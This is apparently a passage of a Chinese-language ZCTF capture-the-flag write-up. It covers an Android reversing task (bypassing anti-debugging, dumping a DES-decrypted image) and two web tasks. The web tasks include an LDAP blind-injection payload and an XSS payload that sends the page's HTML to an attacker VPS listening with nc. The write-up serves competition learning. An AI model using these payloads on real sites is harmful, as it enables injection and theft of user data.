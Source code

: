 下个log直接把key打印出来,是zctf`{`Notthis`}`,因此用户名是zctf,密码应该是`{`Notthis`}`。

这一步通过了之后会运行app这个类,里面会检查反调试,并且设置了退出时间,把相应退出的转跳判断改掉就不会退出了。最后程序会调用JNIclass.sayHelloInc

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t017d21266df0cf15a4.png)

用ida查看相关汇编

其中会调用Java_com_zctf_app_JNIclass_add_0()查看/proc/pid/status进行反调试,调试的时候把它的返回值改为0,即可绕过。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01178669b11892f526.png)

剩下的部分貌似是拼接/data/data/com.zctf.app/files/bottom和so文件内部的一个字符串,然后使用des解密。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01cba0457758262edf.png)

这里直接用gdb dump出解密后的值即可,是一张图片。用stegsolve打开即可看到flag。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t019ecefa5414525c98.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0110956fbe9bc90c63.png)

**WEB**

Web150 Easy Injection

一个登录框..测试了下感觉不像注入,cookie中有个sessionhint,发现是base32编码,解码发现是说不是sql注入,

扫 了下端口,发现存在389端口,ldap,参考drops的文章,用admin/*登录进后台,发现一个搜索,搜索a回显,0 admin, (| (uid=*a*))猜测是后端的语句,这里又有一个sessionhint解出来can you find my description,后来才发现 description是表名,于是根据drops文章一位一位盲注出。

payload:search=b*)(description=z

[![](https://p4.ssl.qhimg.com/t018d6124e00234e068.png)](https://p4.ssl.qhimg.com/t018d6124e00234e068.png)

Web200 加密的帖子

没啥好说的这题..你以为你换个DedeCMS的Logo我就认不出你是Discuz了么!

XSS漏洞,wooyun上有,在回复帖子的位置插入代码:

[flash]http://VPS_IP:9997/flash.swf?'+btoa(escape(document.body.innerHTML))+'[/flash]

VPS上nc监听9997端口,就能接收到数据了..

[![](https://p4.ssl.qhimg.com/t01aafdcfec7754f049.png)](https://p4.ssl.qhimg.com/t01aafdcfec7754f049.png)

解码之后就能看到flag

[![](https://p2.ssl.qhimg.com/t016d3f0f0b0901b222.png)](https://p2.ssl.qhimg.com/t016d3f0f0b0901b222.png)
